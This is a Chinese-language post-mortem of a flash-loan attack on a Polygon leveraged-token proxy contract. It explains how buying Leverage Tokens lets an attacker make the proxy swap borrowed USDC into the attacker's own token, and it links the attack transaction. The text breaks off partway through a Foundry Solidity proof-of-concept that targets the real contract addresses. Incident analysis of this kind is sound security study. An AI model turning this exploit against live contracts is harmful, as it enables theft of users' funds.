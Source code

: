 其中`userLoan = coinInfo.stakePool.borrow(userLoan); `该代码会向[另外一个代理合约](https://polygonscan.com/address/0xd0289082cf4c5c2ba448b4b9c67232729aa75efa#readProxyContract)借钱到本代理合约. 我没搞清楚这是在干嘛. 但反正用户向代理合约购买Leverage Token后, 代理合约会得到两笔USDC: 用户付款的USDC以及调用coinInfo.stakePool.borrow()借来的USDC, 并且其会将这些USDC都转换为WETH

> 所以, 为了让代理合约有钱置换我们的币, 我们花`X`向代理合约购买Leverage Token, 代理合约会收到的价值为 `X + Y` , `Y`是它向[另外一个代理合约](https://polygonscan.com/address/0xd0289082cf4c5c2ba448b4b9c67232729aa75efa#readProxyContract)借来的
>
> 然后我们让代理合约花  `X + Y` 全部拿来置换我们的币, 这样除去成本`X`, 我们能净赚`Y`

> 在本次攻击中, 黑客也没想花自己的钱, 所以他使用了闪电贷来支付购买Leverage Token的成本`X`



## 攻击流程

到这里查看攻击流程 : https://phalcon.xyz/tx/polygon/0x6fa6374d43df083679cdab97149af8207cda2471620a06d3f28b115136b8e2c4

我总结了一下, 如下图, 每一行开头的数字对应攻击流程图中的行号

![image](https://github.com/yinhui1984/imagehosting/blob/main/images/1678870443464770000.png?raw=true)



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "lib/openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import "lib/openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "lib/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";

interface phxProxy {
    function buyLeverage(
        uint256 amount,
        uint256 minAmount,
        uint256 deadLine,
        bytes calldata
    ) external;

    function delegateCallSwap(bytes memory data) external;
}

interface DPPAdvanced {
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata
    ) external;
}

//https://polygonscan.com/address/0x65baf1dc6fa0c7e459a36e2e310836b396d1b1de#code
phxProxy constant PHX_PROXY = phxProxy(
    0x65BaF1DC6fA0C7E459A36E2E310836B396D1B1de
);

IUniswapV2Router02 constant QuickSwapRouter = IUniswapV2Router02(
    0xa5E0829CaCEd8fFDD4De3c43696c57F7D7A678ff
);

DPPAdvanced constant DPP = DPPAdvanced(
    0x1093ceD81987Bf532c2b7907B2A8525cd0C17295
```